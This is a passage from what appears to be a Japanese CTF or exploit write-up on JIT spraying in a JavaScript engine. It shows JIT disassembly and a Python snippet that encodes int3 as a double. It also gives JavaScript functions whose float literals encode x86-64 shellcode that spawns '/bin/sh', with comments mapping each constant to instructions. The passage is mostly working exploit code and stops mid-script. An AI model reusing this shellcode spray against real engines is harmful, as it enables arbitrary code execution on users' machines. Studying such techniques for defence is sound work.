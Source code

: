 ```
0x00007f12b309c2c0  48 b8 9a 99 99 99 99  mov    rax, 0x3ff199999999999a
0x00007f12b309c2c7  99 f1 3f
0x00007f12b309c2ca  49 89 c4              mov    r12,rax
3:40 LoadImmediate 1.1:
0x00007f12b309c2cd  48 b8 9a 99 99 99 99  mov    rax, 0x3ff199999999999a
```

あとは負方向に飛ばした先にペイロードがあればよいです。即値として負数を入れると変な演算が入るので、これを回避しつつint3で埋めてみます。

```
>>> struct.unpack('<d', p64(0x1ccccccccccccccc))[0]
5.961903555800228e-170
```

サイズを調整して、以下のスクリプトでトラップが起こります。

```
function hello(n) {
        if (n == 1) {
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                [];
                return 1.1;
        }
        else {
                1.1
                1.1;
                1.1;
                [1.2];
                [];
        }
}
hello(1);
```

あとは飛んだ位置を確認して、そこからシェルコードを入れていけばよいです。完成したスクリプトは以下の通りです。

```
function hello(n) {
        if (n == 1) {
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                5.961903555800228e-170;
                3.7617931363848883e-280;        // mov eax, 0; push rax; push rax
                3.7696948622719174e-280;        // call $+5; pop rdi
                3.7506973812839493e-280;        // add rdi, 0x22; mv al, 0x3b
                7.980295035359349e-305;         // pop rdx; pop rsi; syscall
                1.0880585577140108e-306;        //  '/bin/sh\x00'
                5.961903555800228e-170;
                [];
                return 1.1;
        }
        else {
                1.1
                1.1;
                1.1;
                [1.2];
                [];
```